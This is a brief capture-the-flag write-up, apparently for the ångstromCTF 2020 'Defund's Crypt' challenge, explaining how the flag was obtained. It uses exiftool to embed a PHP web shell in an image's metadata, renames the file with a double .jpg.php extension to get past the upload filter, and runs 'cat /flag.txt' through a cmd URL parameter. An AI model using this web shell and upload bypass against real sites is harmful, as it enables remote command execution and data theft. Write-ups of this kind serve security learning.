

# Defund's Crypt

### How to get the flag?
* Take a sample image
* Use exiftool to embed php code into an image
    ```
    exiftool -Comment='<?php echo system($_GET["cmd"]); ?>' co.jpg
    ```
* Rename the file from `co.jpg` to `co.jpg.php`
* Upload the image
* Cat the flag by giving `cat /flag.txt` as cmd GET parameter to the image.
    ```
    view-source:https://crypt.2020.chall.actf.co/memories/e444629efe5d3d0214bc3c7b2e248fb4c5d7dae3.jpg.php?cmd=cat /flag.txt
    ```
    